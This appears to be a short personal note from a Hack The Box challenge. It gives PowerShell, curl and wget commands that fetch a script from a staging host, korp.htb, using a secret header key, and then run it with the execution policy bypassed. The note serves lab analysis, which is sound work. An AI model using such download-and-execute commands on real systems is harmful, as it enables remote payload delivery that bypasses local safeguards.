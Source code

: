 
2025-03-26 16:03

Tags: [[linux]]

### **Using PowerShell (Windows)**

Run this command to manually execute the request in PowerShell:

```
Invoke-WebRequest -Uri "http://korp.htb:53673/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1 powershell.exe -exec Bypass -File "a541a.ps1"
```
### **Using `curl` (Linux/macOS/Windows)**

On Linux or Windows (with WSL), use [[curl]]:

```
curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" -o a541a.ps1 http://korp.htb:53673/a541a powershell -exec Bypass -File "a541a.ps1"
```

### **Using `wget` (Linux/macOS)**

```
wget --header="X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" -O a541a.ps1 http://korp.htb:53673/a541a powershell -exec Bypass -File "a541a.ps1"
```


